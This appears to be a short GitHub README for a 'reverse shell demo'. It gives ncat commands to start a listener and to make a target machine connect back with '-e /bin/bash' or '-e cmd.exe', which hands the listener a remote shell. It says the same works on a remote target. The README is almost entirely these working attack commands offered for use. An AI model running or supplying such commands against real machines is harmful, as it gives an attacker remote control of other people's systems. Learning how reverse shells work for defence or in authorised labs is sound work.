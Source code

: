 # reverse-shell-demo

## Reverse Shell demo between 2 computers on the same network. (Can be done on a remote target but local targets are faster for a demo, result is identical)

### 1) Install NetCat/Nmap


### 2) Set up a listening server:
`ncat -lvnp <port>`


### 3) Connect attack target to server:
For Linux/Bash:
`ncat <server-internal-ip> <server-port> -e /bin/bash`

For Windows:
`ncat <server-internal-ip> <server-port> -e cmd.exe`

To find the internal IP run `hostname I` on Linux OR `ipconfig` on Windows.
